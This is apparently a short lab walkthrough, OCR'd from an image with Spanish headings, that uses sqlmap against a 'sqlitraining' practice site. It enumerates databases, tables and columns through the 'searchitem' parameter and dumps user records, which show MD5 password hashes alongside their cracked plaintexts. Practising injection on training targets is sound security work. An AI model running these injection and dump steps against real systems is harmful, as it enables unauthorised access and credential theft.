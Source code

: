 ```bash

### SQLMAP

```bash
sqlmap -r sqlmap -p searchitem --batch
```

### OBTENER LAS BASES DE DATOS --dbs

sqlmap -r sqlmap -p searchitem --batch --dbs


[*] information_schema
[*] mysql
[*] performance_schema
[*] sqlitraining
[*] sys



└─$ sqlmap -r sqlmap -p searchitem --batch -D sqlitraining --tables



[2 tables]
+----------+
| products |
| users    |
+----------+



 sqlmap -r sqlmap -p searchitem --batch -D sqlitraining -T users --columns



[5 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| description | varchar(200) |
| fname       | varchar(30)  |
| id          | int          |
| password    | varchar(33)  |
| username    | varchar(200) |
+-------------+--------------+




 sqlmap -r sqlmap -p searchitem --batch -D sqlitraining -T users -C username,password --dump



+-----------+---------------------------------------------+
| username  | password                                    |
+-----------+---------------------------------------------+
| admin     | 21232f297a57a5a743894a0e4a801fc3 (admin)    |
| bob       | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| ramesh    | 9aeaed51f2b0f6680c4ed4b07fb1a83c (troll)    |
| suresh    | 9aeaed51f2b0f6680c4ed4b07fb1a83c (troll)    |
| alice     | c93239cae450631e9f55d71aed99e918 (alice1)   |